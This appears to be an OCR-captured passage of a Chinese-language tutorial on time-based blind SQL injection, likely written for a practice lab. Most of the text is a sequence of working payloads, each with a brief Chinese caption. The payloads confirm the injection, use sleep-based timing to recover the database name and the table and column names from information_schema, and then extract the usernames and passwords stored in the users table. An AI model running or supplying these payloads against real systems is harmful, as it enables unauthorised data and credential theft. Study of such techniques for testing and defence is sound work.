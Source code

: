   
  

>if(ascii(...) = 115, sleep(5), 1): 如果截取的字符的 ASCII 值等于 115（ASCII 值为 s），则执行 sleep(5)，即使服务器等待 5 秒钟；否则，返回 1。

  

这个用代码效果会更好。

  

```txt

?id=1' and if(1=1,sleep(5),1)--+

判断参数构造。

  

?id=1'and if(length((select database()))>9,sleep(5),1)--+

判断数据库名长度

?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+

逐一判断数据库字符

  

?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+

判断所有表名长度

?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+

逐一判断表名

  

?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+

判断所有字段名的长度

?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+

逐一判断字段名。

  

?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+

判断字段内容长度

?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+

逐一检测内容。

  

```
